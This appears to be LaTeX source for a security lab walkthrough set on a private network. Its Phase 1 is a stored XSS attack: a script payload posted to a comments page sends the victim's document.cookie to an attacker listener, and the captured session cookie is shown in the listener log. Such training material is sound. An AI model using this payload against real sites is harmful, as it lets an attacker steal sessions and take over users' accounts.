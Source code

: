 \documentclass[a4paper, 12pt]{article}
\begin{document}
\begin{itemize}[leftmargin=1.5em]
  \item Parrot attacker node running with static IP \texttt{10.0.40.5/24}
  \item Server-A SYNAPSE Portal running: \texttt{http://192.168.30.10}
  \item Server-B DataVault running: \texttt{http://192.168.30.20}
\end{itemize}

Configure Parrot static IP at session start:

\begin{lstlisting}[language=bash]
nmcli con mod "Wired connection 1" \
  ipv4.method manual ipv4.addresses 10.0.40.5/24 \
  ipv4.gateway 10.0.40.1 ipv4.dns 10.0.40.1
nmcli con up "Wired connection 1"
\end{lstlisting}

\section{Phase 1 --- Stored XSS + Cookie Theft}

The \texttt{/comments} endpoint renders input without sanitisation
(\texttt{\{\{ c.body | safe \}\}}).
The victim bot visits \texttt{/comments} every $\sim$20\,s as user \texttt{guest}.
The session cookie has no \texttt{HttpOnly} flag.

\subsection*{Step 1 --- Start HTTP listener on Parrot}
\begin{lstlisting}[language=bash]
python3 -m http.server 8000
\end{lstlisting}

\subsection*{Step 2 --- Post XSS payload}
Login as \texttt{guest / guest123} and post to \texttt{/comments}:
\begin{lstlisting}[language=html]
<script>fetch('http://10.0.40.5:8000/?c='
  +encodeURIComponent(document.cookie))</script>
\end{lstlisting}

\subsection*{Step 3 --- Receive victim cookie}
Within $\sim$20\,s the listener logs:
\begin{lstlisting}
GET /?c=session%3D1%3Aguest%3Aguest HTTP/1.1
\end{lstlisting}
\end{document}
